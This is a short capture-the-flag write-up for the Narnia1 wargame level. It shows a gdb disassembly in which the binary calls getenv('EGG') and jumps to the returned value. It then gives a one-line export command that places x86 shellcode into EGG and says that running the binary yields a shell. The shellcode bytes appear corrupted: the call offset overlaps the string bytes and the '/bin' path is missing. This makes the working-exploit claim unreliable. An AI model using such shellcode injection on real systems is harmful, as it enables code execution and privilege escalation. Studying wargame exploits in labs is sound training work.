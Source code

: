 ```yaml
---
title: "Narnia1 Write-up"
layout: post
category: HackING
author: A1phaZer0
---
```

1.Get disassembled code.  
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   [...]
   0x08048486 <+9>:	 mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   [...]
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   [...]
End of assembler dump.
```
<!--more-->
`<getenv@plt>` returns a pointer to the `value` part of the whole `var=value` environment string, so `call eax` will jump to where `value` starts and run.  
All one need to do is put payload into that environment variable.  
2.Put payload into `EGG`
```bash
$ export EGG=$( perl -e 'print "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"' )
```
Run ./narnia1, you'll get a shell.
